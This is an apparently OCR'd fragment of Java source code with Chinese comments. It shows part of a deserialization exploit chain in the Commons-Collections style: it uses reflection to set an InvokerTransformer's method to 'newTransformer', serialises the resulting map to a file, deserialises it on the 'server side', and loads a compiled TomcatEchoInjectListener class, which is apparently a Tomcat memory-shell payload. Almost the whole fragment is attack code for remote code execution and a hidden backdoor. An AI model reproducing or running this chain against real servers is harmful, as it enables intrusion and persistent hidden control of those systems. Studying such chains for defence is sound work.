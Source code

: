 ```java
        Map expMap = new HashMap<>();
        expMap.put(tiedMapEntry,"valueTest");
        outerMap.remove(templates);
        // 通过反射修改iMethodName值为newTransformer
        Field f = invokerTransformer.getClass().getDeclaredField("iMethodName");
        f.setAccessible(true);
        f.set(invokerTransformer, "newTransformer");
        FileOutputStream fileOutputStream = new FileOutputStream("1.txt");
        // 创建并实例化对象输出流
        ObjectOutputStream out =  new ObjectOutputStream(fileOutputStream);
        out.writeObject(expMap);
    }
    /*
     * 服务端
     *  */
    public void unserialize() throws Exception{
        // 创建并实例化文件输入流
        FileInputStream fileInputStream = new FileInputStream("1.txt");
        // 创建并实例化对象输入流
        ObjectInputStream in = new ObjectInputStream(fileInputStream);
        in.readObject();
    }
    public static byte[] getBytes() throws Exception{
        InputStream inputStream = new FileInputStream(new File("./target/classes/com/memoryshell/TomcatEchoInjectListener.class"));
        ByteArrayOutputStream bao = new ByteArrayOutputStream();
        int a = -1;
        while((a = inputStream.read())!=-1){
            bao.write(a);
        }
        byte[] bytes = bao.toByteArray();
        return bytes;

    }
}
```
